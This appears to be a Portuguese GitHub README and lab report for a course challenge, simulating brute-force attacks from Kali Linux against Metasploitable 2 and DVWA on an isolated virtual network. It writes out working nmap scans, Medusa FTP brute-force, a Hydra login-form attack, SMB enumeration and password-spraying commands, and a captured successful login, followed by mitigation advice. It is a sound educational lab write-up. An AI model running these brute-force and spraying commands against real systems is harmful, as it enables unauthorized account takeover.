 # Readme
Simulação de Ataque de Força Bruta com Medusa e Kali Linux

# Relatório do Projeto — Kali + Medusa (Força Bruta)

*Autor:** Hernane Bini  
*Projeto:** Desafio DIO — Kali Linux + Medusa com Metasploitable 2 / DVWA  
*Link: https://1drv.ms/f/c/4cdb45b66d93d79a/Evv83TaUIlFKsC0XvpeY4WgBMMIydRXgZw6nZlrTAmN0aw?e=AMC082 
*Data:** 2025-10-06

---

## 1) Resposta direta — O que entrego
Este repositório contém:
- Scripts automatizados (`scripts/`, `scripts_commented/`)
- Wordlists (`wordlists/`)
- Relatório (este arquivo)
- Slides (`slides/apresentacao_dio.pptx`)
- Evidências (colocar em `images/`)
- Logs (gerados em `scans/`)

---

## 2) Ambiente e Arquitetura
- VirtualBox: Host-Only network
  - Kali (atacante): 192.168.56.101
  - Metasploitable2 (alvo): 192.168.56.102
- Rede isolada entre host e VMs.

---

## 3) Ferramentas utilizadas
- medusa, hydra, nmap, enum4linux, smbclient, curl, ncftp
- Metasploitable 2 / DVWA (alvo vulnerável)
- Scripts bash e slides PPTX

---

## 4) Passo-a-passo auditável (comandos e justificativa)

### 4.1 Preparação
```bash
# configurar IPs e testar conectividade
sudo ip addr add 192.168.56.101/24 dev eth0
ping -c 3 192.168.56.102

4.2 Reconhecimento
bash
Copiar código
nmap -sS -Pn -T4 192.168.56.102 -oN scans/nmap_quick.txt
nmap -sV -p- 192.168.56.102 -oN scans/nmap_full.txt

4.3 Força bruta FTP (Medusa)
bash
Copiar código
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/passwords-small.txt -M ftp -t 10 -f | tee scans/medusa_ftp.log

4.4 Força bruta DVWA (Hydra)
bash
Copiar código
hydra -l admin -P wordlists/passwords-small.txt 192.168.56.102 http-post-form \
"/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:PHPSESSID=COLOQUE_AQUI;security=low" \
| tee scans/hydra_dvwa.log

4.5 Enumeração SMB e Spraying
bash
Copiar código
enum4linux -a 192.168.56.102 | tee scans/enum4linux.txt
smbclient -L //192.168.56.102 -N | tee scans/smbclient_shares.txt
medusa -h 192.168.56.102 -U wordlists/users_spray.txt -P wordlists/passwords-spray.txt -M smbnt -t 10 -f | tee scans/medusa_smb_spray.log

5) Wordlists & Scripts (localização)
wordlists/ (users.txt, passwords-small.txt, users_spray.txt, passwords-spray.txt)

scripts/ (run_medusa_ftp.sh, run_hydra_dvwa.sh, enum_smb.sh, run_medusa_smb_spray.sh)

scripts_commented/ (versões anotadas)

6) Evidências
Link: https://1drv.ms/f/c/4cdb45b66d93d79a/Evv83TaUIlFKsC0XvpeY4WgBMMIydRXgZw6nZlrTAmN0aw?e=AMC082

images/virtualbox_network.png

images/ip_kali.png

images/ip_metasploitable.png

images/nmap_output.png

images/medusa_result.png

images/hydra_result.png

images/enum4linux_result.png

images/smbclient_result.png

Inclua as imagens no relatório com:

markdown
Copiar código
![Descrição da evidência](../images/nome_imagem.png)

7) Resultados
Linha de log (Medusa):

css
Copiar código
[+] 192.168.56.102:21 - msfadmin:msfadmin - LOGIN SUCCESSFUL

8) Recomendações de mitigação
Senhas fortes (mín. 12 caracteres)

MFA/2FA

Rate-limiting / lockout

Substituir FTP por SFTP/FTPS

Desativar SMBv1 / aplicar ACLs

Monitoramento e SIEM / IDS

9) Perspectivas alternativas e próximas etapas
Comparar Medusa x Hydra x Patator

Criar wordlists customizadas (crunch)

Integrar detecção (Suricata + ELK)

Transformar em material EAD com slides e vídeo

10) Checklist final (para submissão)
 Relatório final em docs/

 Slides atualizados em slides/

 Evidências reais em images/

 Scripts no scripts/ e scripts_commented/

 .gitignore e LICENSE adicionados

 Commit e push no GitHub

Aviso:

Lembrando que este é um exemplo e teste educacional, não deve ser usado sem autorização ou fora de um ambiente educional e controlado.
